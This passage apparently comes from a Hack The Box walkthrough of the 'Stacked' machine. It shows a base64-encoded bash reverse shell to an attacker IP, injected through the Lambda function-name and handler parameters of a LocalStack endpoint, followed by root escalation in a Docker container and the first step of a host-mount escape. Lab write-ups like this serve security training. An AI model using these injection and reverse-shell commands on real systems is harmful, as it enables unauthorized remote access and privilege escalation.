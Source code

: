 This proofs command execution and can be used to gain a reverse shell.

Base64-encoding reverse shell command:
```
echo -n 'bash -i  >& /dev/tcp/10.10.14.3/9001  0>&1' | base64 -w 0
```

Creating the Lambda service with reverse shell command in the _functionName parameter_:
```
aws lambda --endpoint=http://s3-testing.stacked.htb/ create-function --function-name 'Test;echo -n YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMy85MDAxICAwPiYx | base64 -d | bash' --zip-file fileb://index.zip --role Anything --handler index.handler --runtime nodejs10.x
```

After sending the request to port 8080 on localhost, the listener on my IP and port 9001 starts a reverse shell as the user _localstack_.
The random hostname of this server and the _.dockerenv_ file in the root directory indicates that this is a **Docker container**.

## Privilege Escalation

To check the processes, the tool [pspy](https://github.com/DominicBreuker/pspy) can be run on the box.
When creating and executing a Lambda service, the processes can be followed to see that root _(UID=0)_ is running it:
```
CMD: UID=0     PID=981

bin/sh -c CONTAINER_ID="$(docker create -i -e DOCKER_LAMBDA_USE_STDIN="$DOCKER_LAMBDA_USE_STDIN" (...)" --rm "lambci/lambda:nodejs10.x" "index.handler")";docker cp "/tmp/localstack/zipfile.3566ab46/." "$CONTAINER_ID:/var/task"; docker start -ai "$CONTAINER_ID";
```

The _index.handler_ could be modified to inject arbitrary commands.

Creating and executing Lambda service and replacing _index.handler_ with a reverse shell command:
```
aws lambda --endpoint=http://s3-testing.stacked.htb/ create-function --function-name 'shell' --zip-file fileb://index.zip --role Anything --handler '$(echo -n YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMy85MDAxICAwPiYx | base64 -d | bash)' --runtime nodejs10.x

aws lambda --endpoint=http://s3-testing.stacked.htb/ invoke --function-name 'Test2' output
```

After executing the Lambda function, the listener on my IP and port 9001 starts a reverse shell as root in the **Docker container**.

### Lateral Movement

The root user can use the `docker` commands to mount the disk of the host system to the container and modify files there.

Checking which images are on the box:
```
docker images
```
